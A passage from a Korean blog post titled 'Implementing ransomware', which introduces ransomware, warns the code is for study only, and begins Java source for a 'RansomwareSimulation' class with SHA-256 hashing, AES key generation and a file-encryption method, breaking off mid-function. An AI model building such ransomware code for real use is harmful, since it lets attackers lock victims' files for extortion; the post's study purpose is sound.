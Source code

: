 ```yaml
---
layout: single
title:  "랜섬웨어 구현해보기"
categories: "Secure"
tag: "Secure"
toc: true
author_profile: false
sidebar:
    nav: "docs"
---
```


# Ransomware
다들 이상한 사이트나 블로그 같은곳에서 이상한 파일을 다운받다가 랜섬웨어에 걸리는 경험을 한 적이 있을것이다.  
본인의 컴퓨터 안의 파일들의 확장자가 바뀌어 접근할 수 없어지고, 몇몇의 파일은 실행조차 되지 않느 ㄴ그런 경험 말이다.  
이번엔 랜섬웨어의 코드를 살펴보며, 그 원리를 이해해 보는 시간을 가져보자.  

후술되는 코드는 윤리적, 법적문제를 초례할 수 있다.  
절대 실행되선 안되므로, 꼭 공부용도로만 사용하자.  

```java
import javax.crypto.Cipher;
import javax.crypto.KeyGenerator;
import javax.crypto.SecretKey;
import javax.crypto.spec.SecretKeySpec;
import java.io.*;
import java.nio.file.*;
import java.security.MessageDigest;
import java.security.SecureRandom;
import java.util.Base64;
import java.util.List;
import java.util.stream.Collectors;

public class RansomwareSimulation {

    // SHA-256 해시 함수
    public static String hashWithSHA256(String input) throws Exception {
        MessageDigest digest = MessageDigest.getInstance("SHA-256");
        byte[] hash = digest.digest(input.getBytes("UTF-8"));
        StringBuilder hexString = new StringBuilder();
        for (byte b : hash) {
            String hex = Integer.toHexString(0xff & b);
            if (hex.length() == 1) hexString.append('0');
            hexString.append(hex);
        }
        return hexString.toString();
    }

    // AES 키 생성
    public static SecretKey generateKey() throws Exception {
        KeyGenerator keyGen = KeyGenerator.getInstance("AES");
        keyGen.init(128, new SecureRandom()); // 128-bit AES 키
        return keyGen.generateKey();
    }

    // 파일 암호화
    public static void encryptFile(File inputFile, File outputFile, SecretKey secretKey) throws Exception {
        Cipher cipher = Cipher.getInstance("AES");
        cipher.init(Cipher.ENCRYPT_MODE, secretKey);

        try (FileInputStream fis = new FileInputStream(inputFile);
```
